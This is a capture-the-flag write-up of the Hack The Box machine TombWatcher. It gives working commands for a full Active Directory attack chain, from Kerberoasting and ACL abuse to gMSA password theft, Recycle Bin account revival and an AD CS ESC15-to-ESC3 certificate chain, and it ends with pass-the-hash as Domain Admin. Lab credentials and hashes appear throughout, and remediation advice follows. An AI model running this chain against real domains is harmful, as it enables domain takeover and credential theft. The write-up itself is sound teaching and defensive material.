| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Rooted |
| **Key techniques** | `WriteSPN` → targeted Kerberoast, `AddSelf` → group membership, **gMSA `ReadGMSAPassword`**, `ForceChangePassword`, `WriteOwner` → `GenericAll`, `dacledit` on OU, **AD Recycle Bin revival** of a deleted account, AD CS **ESC15 → ESC3** chain |

---

## TL;DR

TombWatcher is one long ACL chain. Start with a single credential for
Henry. End at Domain Admin through an AD CS **ESC15 → ESC3** chain.
Every edge is one `bloodyAD` command.

1. **`henry:H3nry_987TGV!`** has `WriteSPN` on **`alfred`**. Set an
   SPN on Alfred, Kerberoast him, crack the hash → `alfred:basketball`.
2. **`alfred`** has `AddSelf` on group **`INFRASTRUCTURE`**. Add
   himself. Group now includes Alfred.
3. **`INFRASTRUCTURE`** has `ReadGMSAPassword` on **`ANSIBLE_DEV$`**
   (a gMSA). Dump the managed password → NT hash for the machine
   account.
4. **`ANSIBLE_DEV$`** has `ForceChangePassword` on **`sam`**. Reset
   Sam's password to something I know.
5. **`sam`** has `WriteOwner` on **`john`**. Set self as owner,
   grant self `GenericAll`, reset John's password.
6. **`john`** has `GenericAll` on the **`OU=ADCS`** container.
   `impacket-dacledit` writes a full-control inheritable ACE for
   John on the OU. The right flows down to the CA and the templates.
7. The **WebServer** template has an **orphan SID** in `Enrollment
   Rights` (`S-1-5-21-…-1111`). It does not resolve. Not a known
   group. `Get-ADObject -IncludeDeletedObjects` finds it in the AD
   Recycle Bin, a deleted user called **`cert_admin`**. Restore
   it. John now has a fresh `GenericAll` edge on the restored
   account.
8. Reset `cert_admin`'s password with `bloodyAD`. `certipy-ad find
   -vulnerable` under that account now flags **ESC15** on WebServer
   (schema v1, EnrolleeSuppliesSubject).
9. **ESC15 → ESC3 chain.** `certipy-ad req … -template WebServer …
   -application-policies 'Certificate Request Agent'` injects the
   Enrollment-Agent EKU into the cert. A second `certipy-ad req …
   -template User -pfx administrator.pfx -on-behalf-of
   'tombwatcher\Administrator'` uses that cert to enroll on behalf
   of the real Domain Admin. `certipy-ad auth` returns
   Administrator's NT hash → **root.txt**.

Every AD edge is one BloodHound relationship. The ADCS half is one
Recycle-Bin restore plus one ESC15+ESC3 double request.

---

## Recon

Given credentials for `henry`, the assumed-breach starting position.

```bash
nmap -p- --min-rate=5000 -oA tombwatcher 10.129.232.167
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV -oA tombwatcher-scripts 10.129.232.167
```


Standard AD/DC surface: **DNS, Kerberos, RPC, SMB, LDAP, LDAPS,
Global Catalog, WinRM, .NET Remoting**. Domain `TOMBWATCHER.HTB`,
host `dc01.tombwatcher.htb`. Added both to `/etc/hosts`.

---

## BloodHound — the map

With Henry's creds I pulled the full graph:

```bash
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb \
  -c All -ns 10.129.232.167
```



Marked `henry@TOMBWATCHER.HTB` as **Owned** and ran *Shortest paths
from owned*. One long chain:

```
HENRY → alfred → INFRASTRUCTURE → ANSIBLE_DEV$ → sam → john → OU=ADCS
```

Six edges, six primitives:

- `WriteSPN` (Henry → Alfred)
- `AddSelf` (Alfred → INFRASTRUCTURE group)
- `ReadGMSAPassword` (INFRASTRUCTURE → ANSIBLE_DEV$ gMSA)
- `ForceChangePassword` (ANSIBLE_DEV$ → sam)
- `WriteOwner` + `GenericAll` (sam → john)
- `GenericAll` (john → OU=ADCS container)

**`bloodyAD` is the main tool here.** One binary, one DC connection.
Every edge is `add …` / `set …` / `get …`.



---

## Step 1 — `WriteSPN` → targeted Kerberoast on Alfred

BloodHound: `HENRY@TOMBWATCHER.HTB` → **`WriteSPN`** →
`ALFRED@TOMBWATCHER.HTB`.


**`WriteSPN`** lets Henry set a `servicePrincipalName` on Alfred's
user object. Any user with an SPN is Kerberoastable. I can request
a service ticket for that SPN. The ticket comes back encrypted
with Alfred's NT hash. Crack it offline. `targetedKerberoast.py`
handles set-SPN, roast, and cleanup in one call:

```bash
python3 targetedKerberoast.py -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```



Hashcat with rockyou (mode `13100` for Kerberos 5 TGS-REP RC4):

```bash
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt --force
```


`alfred:basketball`. Confirmed:

```bash
nxc smb 10.129.232.167 -u alfred -p 'basketball'
```

---

## Step 2 — `AddSelf` → INFRASTRUCTURE group

Alfred has `AddSelf` on the `INFRASTRUCTURE` group. BloodHound
shows all outbound edges from Alfred:



Add himself:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball add groupMember INFRASTRUCTURE Alfred
```


Fresh login and my group memberships include INFRASTRUCTURE.

---

## Step 3 — `ReadGMSAPassword` on `ANSIBLE_DEV$`

**`INFRASTRUCTURE`** is on `PrincipalsAllowedToRetrieveManagedPassword`
for the gMSA **`ANSIBLE_DEV$`**. That is how gMSA works. The DC
generates the current password from `msDS-ManagedPasswordId` and
hands it out to any principal named in that attribute. Right now
that includes Alfred.



`bloodyAD get object` with the `msDS-ManagedPassword` attribute
returns the blob. The tool decodes it to the NT hash:

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u alfred -p basketball get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
```



Hash: `3eca34dd13a85db79c03178b7b149621`. That is a Pass-the-Hash
credential for the `ANSIBLE_DEV$` machine account.

---

## Step 4 — `ForceChangePassword` on sam

`ANSIBLE_DEV$` has **`ForceChangePassword`** on `sam`. That is the
"User-Force-Change-Password" extended right. It lets a principal
set a new password on a target user **without knowing the old one**.



`bloodyAD set password` from a Pass-the-Hash session (note the `:`
in front of the hash):

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u 'ANSIBLE_DEV$' -p ':3eca34dd13a85db79c03178b7b149621' \
  set password sam 'password'
```



Note: this overwrites a real user's password. Fine on retired HTB.
On a client engagement, coordinate a window and set it back after.

---

## Step 5 — `WriteOwner` → `GenericAll` → reset John

`sam` has **`WriteOwner`** on `john`. `WriteOwner` lets me set
myself as the owner. The owner of an object always has the right
to modify its DACL. From there I grant myself `GenericAll` and
reset the password.



Three `bloodyAD` calls, one per step:

```bash
# 1. take ownership
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set owner john sam

# 2. grant self GenericAll
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password add genericAll john sam

# 3. reset password
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u sam -p password set password john 'password'
```





Kerberos wants a synced clock. Quick sanity check before the WinRM
login:



Pass-the-password into WinRM as John:

```bash
evil-winrm -i 10.129.232.167 -u john -p password
```



`user.txt` is on John's desktop:



---

## Step 6 — `GenericAll` on `OU=ADCS` → open the CA container

John has **`GenericAll`** on **`OU=ADCS,DC=TOMBWATCHER,DC=HTB`**.
`GenericAll` on an OU does not apply to child objects by default.
It does let me write a new ACE on the container. If that ACE is
inheritable, it flows down to the objects inside. That includes the
CA and the certificate templates.


`impacket-dacledit` writes an inheritable `FullControl` ACE for
John on the OU:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance \
  -principal 'JOHN' \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  'tombwatcher.htb'/'JOHN':'password'
```

John now controls every template and the CA config inside the ADCS
OU. First check with Certipy:

```bash
certipy-ad find dc01.tombwatcher.htb -u john -p password
```


The `User` template is a standard enroll-on-behalf setup. The
**WebServer** template is the one that matters:


Two things stand out:

- `Schema Version 1` + `EnrolleeSuppliesSubject: True` + no
  `Client Authentication` in the EKU. That is not classic ESC1
  (missing client-auth EKU). It matches the ESC15 preconditions
  (CVE-2024-49019, schema v1 templates allow application-policy
  injection at enrollment time).
- **Enrollment Rights** includes an orphan SID:
  `S-1-5-21-1392491010-1358638721-2126982587-1111`. Not a group,
  not a user. Does not resolve with `rpcclient lookupsid`.

An orphan SID on a certificate template is not a dead end. It is
worth checking.

---

## Step 7 — AD Recycle Bin revival (the SID belongs to a deleted user)

An unresolved SID does not mean the principal never existed. It
means the object might be in the Recycle Bin. Filter deleted
objects by the tail of the SID:

```powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects \
  -Properties cn,objectSid,isDeleted \
  | Where-Object { $_.objectSid -like "*1111" }
```


The `-1111` RID belongs to `cert_admin`, tombstoned as
`CN=cert_admin\0ADEL:938182c3-…,CN=Deleted Objects,DC=TOMBWATCHER,DC=HTB`.
Restore it (John has enough control over the ADCS OU that the
restored account inherits the attribute rights he needs):

```powershell
Restore-ADObject -Identity 'CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb'
```


Re-collect BloodHound. John has a fresh direct edge on the
newly-alive `cert_admin`:


`bloodyAD` sets a password on `cert_admin` (no old password
required, the GenericAll edge covers it):

```bash
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb \
  -u john -p password set password cert_admin 'password'
```



---

## Step 8 — ESC15 flagged as vulnerable (as `cert_admin`)

Re-run Certipy under `cert_admin`. Now that this account holds the
enrollment right on the WebServer template, `-vulnerable` prints
ESC15:

```bash
certipy-ad find -u cert_admin -p 'password' \
  -dc-ip 10.129.232.167 -vulnerable
```




---

## Step 9 — Certificate #1: ESC15 injection → Enrollment-Agent EKU

**ESC15, short version.** On a schema-v1 template with
`EnrolleeSuppliesSubject`, you can inject an
`msPKI-Certificate-Application-Policy` value into the CSR. The CA
writes it into the issued certificate. This works even when the
template's own EKU does not include that policy. In practice:
request `WebServer` (normally a Server-Auth template) with
`-application-policies 'Certificate Request Agent'`. The cert now
has the **Enrollment Agent** EKU.

```bash
certipy-ad req -u cert_admin -p 'password' -dc-ip 10.129.232.167 \
  -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 \
  -template WebServer \
  -upn administrator@tombwatcher.htb \
  -application-policies 'Certificate Request Agent'
```


Certipy warns *"Certificate has no object SID"*. That is expected.
The WebServer template does not add a Security Extension. That is
fine here. I am not going to authenticate with this certificate. I
will use it as an **Enrollment Agent** for the next request.

### What did not work first

First I tried ESC15 straight to Administrator. Request the
WebServer cert with `-application-policies 'Client Authentication'`
and `-upn administrator@tombwatcher.htb`, then `certipy-ad auth`
with it. Certipy printed the cert fine. Auth returned
`Certificate is not valid for client authentication`. The DC did
not accept the injected Client-Auth EKU for PKINIT on this box.
Not sure exactly why. Classic ESC15 client-auth injection is
documented to work elsewhere. I moved to ESC3.

---

## Step 10 — Certificate #2: ESC3 on-behalf-of Administrator

The first certificate has the **Certificate Request Agent** EKU.
That makes it a valid **Enrollment Agent** cert. ESC3 needs
exactly this input. Request a second cert on any authentication
template (here, `User`) with `-on-behalf-of` and my
Enrollment-Agent cert as the signer:

```bash
certipy-ad req -u cert_admin -p 'password' -dc-ip 10.129.232.167 \
  -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 \
  -template User \
  -pfx administrator.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```


This time the cert **does** carry the object SID
`S-1-5-21-…-500`. This is the real Administrator identity, from the CA:


---

## Step 11 — PKINIT as Administrator → root

Authenticate with the PFX. Kerberos wants a synced clock again
(there was a `KRB_AP_ERR_SKEW` on the first try, and `ntpdate` fixes
it):

```bash
sudo ntpdate 10.129.232.167
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.232.167
```



Administrator NT hash:
`aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc`.

Pass-the-Hash into WinRM (or `impacket-psexec`), read `root.txt`:

```bash
evil-winrm -i 10.129.232.167 -u administrator \
  -H f61db423bebe3328d33af26741afe5fc
```


---

## Lessons Learned

- **A chain of small ACL grants adds up to Domain Admin.** Every
  edge here looks minor on its own. Many teams would mark each
  one "not great, but not critical". Chained, they equal DA.
- **`WriteSPN` on a user = targeted Kerberoast.** If that user has
  a crackable password, the box is open. `targetedKerberoast.py`
  handles set-SPN + request + cleanup in one call.
- **gMSA are credential sources, not just service accounts.** If
  a low-privilege group is on
  `PrincipalsAllowedToRetrieveManagedPassword`, every member can
  pull the current password. They also inherit every right the
  gMSA has. Audit that attribute.
- **`WriteOwner` = `GenericAll` in two extra steps.** BloodHound
  shows them as separate edges. The abuse is the same: take
  ownership, grant yourself the rights you want, use them.
- **`dacledit` on a container is often stronger than on a single
  object.** An `-inheritance` write on an OU applies to everything
  inside. If the OU holds AD CS templates, one Certipy chain
  takes you to Domain Admin.
- **SID revival.** An unresolved SID in an ACL is a signal, not a
  dead end. Always check the **AD Recycle Bin** first. A restored
  account keeps the rights it had before deletion. New rule for
  me: `Get-ADObject -IncludeDeletedObjects` is a required step on
  any AD box with an orphan SID.
- **Read templates for shape, not just for Certipy's
  `-vulnerable` flag.** WebServer here is not a classic ESC1 (no
  Client-Auth EKU). Certipy did not flag it until I restored and
  re-enrolled as `cert_admin`. The template shape (schema v1 +
  EnrolleeSuppliesSubject) told me it was ESC15 before Certipy
  did.
- **ESC15 direct-to-DA can fail even when Certipy flags it.**
  Injecting `Client Authentication` as `-application-policies`
  and authenticating directly returned `Certificate is not valid
  for client authentication` on this box. What worked was ESC15 →
  ESC3: use the injected `Certificate Request Agent` EKU to
  enroll on behalf of Administrator. Two certificates instead of
  one. The resulting cert authenticated as Administrator here.
- **Two-step certificate flows work like ACL chains.**
  Cert #1 (to me) is not the target. It is the key that lets me
  request cert #2 (on someone else's behalf).

---

## Remediation

- **Audit `WriteSPN`** across the whole domain. There is no good
  reason for a normal user to set an SPN on another user. It is
  almost always a legacy delegation.
- **Move service accounts to gMSA or MSA.** Restrict
  `msDS-GroupMSAMembership` to the specific service account, not
  a wide administrative group. Any group on that attribute
  inherits Pass-the-Hash credential material.
- **Alert on `AddSelf` to any privileged group.** Also alert on
  membership changes to groups that appear on any gMSA
  `PrincipalsAllowedToRetrieveManagedPassword` attribute.
- **Do not leave `WriteOwner` / `GenericAll` /
  `ForceChangePassword` on Tier-0 users.** Enforce a Tier-0 forest
  boundary: no Tier-1 or Tier-2 principal has any of these rights
  on a Tier-0 account, ever.
- **Container-level `GenericAll` is a sign of bad delegation.** This
  is especially true on the AD CS OU. Move templates out of any OU
  that has non-Tier-0 ACL delegations. Or replace the delegation
  with a JIT / PIM workflow.
- **Enable AD CS ESC mitigations.** Require Manager Approval on
  templates that expose `EnrolleeSuppliesSubject` on schema v1,
  or raise those templates to schema v2 to shut down ESC15.
  Monitor the CA event log for template requests where the SAN's
  UPN does not match the requesting user, and for
  `-on-behalf-of` requests against user-auth templates.
- **Empty the AD Recycle Bin as part of decommissioning.** A
  simple delete leaves the account's SID (and any ACEs that
  reference it) live for the Recycle Bin retention period. If the
  account had privileged enrollment rights, restoring it is a
  one-liner for anyone with revive rights.
- **Alert on `Restore-ADObject`.** This event is rare in
  production. It usually means either a real restore ticket or
  an attacker reviving a privileged account.

---

## Tools used

- `nmap`
- `bloodhound-python` + BloodHound GUI
- `bloodyAD`, the main tool on this box
- `targetedKerberoast.py`
- `hashcat` (mode 13100)
- `impacket-dacledit`
- PowerShell AD module (`Get-ADObject -IncludeDeletedObjects`, `Restore-ADObject`)
- **Certipy** (`certipy-ad find`, `req`, `auth`) for ESC15 injection and ESC3 enroll-on-behalf-of
- `evil-winrm` (Pass-the-Hash for root)
